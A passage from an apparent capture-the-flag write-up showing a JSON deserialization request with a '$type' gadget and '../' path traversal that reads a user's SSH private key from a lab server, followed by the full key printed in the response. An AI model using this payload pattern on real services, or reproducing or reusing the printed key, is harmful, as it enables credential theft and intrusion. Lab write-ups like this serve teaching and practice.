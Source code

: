 


The process is running out of `/home/phil`.

Reading `/home/phil/.ssh/id_rsa` returns a private SSH key:



    > {"RemoveOrder": {"$type": "bagel_server.File, bagel", "ReadFile": "../../../../home/phil/.ssh/id_rsa"}}
    < {
      "UserId": 0,
      "Session": "Unauthorized",
      "Time": "4:24:32",
      "RemoveOrder": {
        "$type": "bagel_server.File, bagel",
        "ReadFile": "-----BEGIN OPENSSH PRIVATE KEY-----\n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\nnrEIIvsBGmrx0AAAAKcGhpbEBiYWdlbAE=\n-----END OPENSSH PRIVATE KEY-----",
        "WriteFile": null
      },
      "WriteOrder": null,
      "ReadOrder": null
    }



### SSH

A quick way to reform a key like this with `\n` in it is with `jq`:
